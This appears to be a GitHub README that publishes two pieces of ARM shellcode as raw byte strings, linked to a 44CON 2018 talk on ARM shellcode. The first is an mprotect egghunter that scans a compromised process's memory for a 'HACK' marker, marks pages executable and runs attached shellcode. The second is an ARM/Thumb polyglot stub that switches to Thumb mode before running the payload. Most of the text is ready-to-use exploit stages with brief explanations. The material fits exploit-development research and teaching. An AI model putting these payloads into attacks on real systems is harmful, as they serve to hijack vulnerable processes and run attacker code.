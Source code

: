 # ARM Shellcode #

## 1. mprotect egghunter ##

- Searches for an EGG (4+4 byte value) in the memory of the exploited process.
- Uses mprotect() to test the presence of pages in the virtual memory space of the target process.
- mprotect() also marks pages RWX as it scans the virtual memory space.
- Upon finding the pre-defined EGG occuring at consecutive locations, the mprotect egghunter passes on the execution control to the shellcode appended to the eggs.

RAW SHELLCODE:

```
$mprotect_egghunter = "\x01\x10\x8f\xe2\x11\xff\x2f\xe1" .
                      "\x6d\x40\x7d\x27\x01\x21\x09\x03" .
                      "\x07\x22\x28\x1c\x01\xdf\x0c\x30" .
                      "\x01\xd1\x6d\x18\xf9\xe7\x6e\x18" .
                      "\x05\x48\x2b\x68\x04\x35\xb5\x42" .
                      "\xf3\xd0\x2c\x68\x98\x42\xf8\xd1" .
                      "\xa3\x42\xf6\xd1\x04\x35\x28\x47" .
                      "HACK";
```

## 2. Quantum Leap code ##

- ARM/Thumb Polyglot code.
- Can be started in ARM mode or Thumb mode.
- Irrespective of the mode it is started in, the Quantum Leap code will switch the CPU to Thumb mode and proceed to execute any Thumb shellcode appended to it.

RAW SHELLCODE:

```
$quantum_leap_stub =  "\x19\xa0\x8f\x22\x15\xa0\x8f\x32" .
                      "\x0d\x40\xa0\x21\x0d\x40\xa0\x31" .
                      "\x12\x04\x2d\x29\x12\x04\x2d\x39" .
                      "\x02\xa0\xbd\x28\x02\xa0\xbd\x38";
```

For more details please browse through my 44CON 2018 presentation titled "Make ARM Shellcode Great Again" at https://www.slideshare.net/saumilshah/make-arm-shellcode-great-again

@therealsaumil

